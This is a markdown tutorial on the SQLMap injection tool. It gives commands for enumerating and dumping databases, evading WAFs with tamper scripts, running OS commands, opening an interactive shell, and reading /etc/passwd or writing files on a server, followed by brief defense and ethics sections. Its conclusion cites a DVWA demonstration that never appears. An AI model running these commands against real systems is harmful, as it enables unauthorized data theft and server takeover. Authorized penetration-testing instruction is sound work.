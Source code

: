 # SQLMap Complete Tutorial with Practical Demonstration

## Table of Contents
1. [Introduction to SQLMap](#introduction-to-sqlmap)
2. [Installation](#installation)
3. [Basic Commands](#basic-commands)
4. [Advanced Techniques](#advanced-techniques)
5. [Defense Mechanisms](#defense-mechanisms)
6. [Ethical Considerations](#ethical-considerations)

## Introduction to SQLMap

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches for database fingerprinting, data fetching, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Installation

SQLMap is pre-installed on Kali Linux. For other systems:

```bash
# Clone the latest version from GitHub
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Or install via package manager (Kali/Ubuntu)
sudo apt update && sudo apt install sqlmap
```

## Basic Commands

### Basic URL Testing
```bash
sqlmap -u "http://example.com/page.php?id=1"
```

### Testing with POST Data
```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin"
```

### Testing with Cookies
```bash
sqlmap -u "http://example.com/restricted/page.php" --cookie="PHPSESSID=abc123"
```

### Specifying HTTP Method
```bash
sqlmap -u "http://example.com/api/user" --method=PUT --data="id=1"
```

### Database Enumeration
```bash
# List databases
sqlmap -u "http://example.com/page.php?id=1" --dbs

# List tables in a specific database
sqlmap -u "http://example.com/page.php?id=1" -D database_name --tables

# List columns in a specific table
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name --columns

# Dump data from specific columns
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump
```

### Advanced Options
```bash
# Specify user-agent
sqlmap -u "http://example.com/page.php?id=1" --user-agent="SQLMAP"

# Use random user-agent
sqlmap -u "http://example.com/page.php?id=1" --random-agent

# Use proxy
sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"

# Set delay between requests
sqlmap -u "http://example.com/page.php?id=1" --delay=5

# Set timeout
sqlmap -u "http://example.com/page.php?id=1" --timeout=30

# Retry on failure
sqlmap -u "http://example.com/page.php?id=1" --retries=3
```


### Bypassing WAFs
```bash
# Use tamper scripts to bypass WAFs
sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment

# Use multiple tamper scripts
sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment,between
```

### OS Interaction
```bash
# Execute operating system commands
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="whoami"

# Get an interactive OS shell
sqlmap -u "http://example.com/page.php?id=1" --os-shell
```

### File System Access
```bash
# Read files from the server
sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd"

# Upload files to the server
sqlmap -u "http://example.com/page.php?id=1" --file-write="local.txt" --file-dest="remote.txt"
```

## Defense Mechanisms

To protect against SQL injection attacks:

1. **Use Prepared Statements** (Parameterized Queries)
2. **Implement Input Validation**
3. **Apply the Principle of Least Privilege** to database accounts
4. **Use Web Application Firewalls** (WAFs)
5. **Regularly Update and Patch** systems
6. **Implement Proper Error Handling** (don't expose database errors to users)
7. **Conduct Regular Security Audits** and penetration testing

## Ethical Considerations

1. Always obtain proper authorization before testing any system
2. SQLMap should only be used on systems you own or have permission to test
3. Unauthorized access to computer systems is illegal
4. DVWA is designed for educational purposes in controlled environments
5. Respect privacy and confidentiality of any data encountered during testing

## Conclusion

SQLMap is a powerful tool for detecting and exploiting SQL injection vulnerabilities. This tutorial demonstrated its basic usage through a practical example on DVWA. Remember to always use this tool ethically and legally, and to implement proper security measures to protect your own applications from such vulnerabilities.

For more information, refer to the [official SQLMap documentation](https://github.com/sqlmapproject/sqlmap/wiki).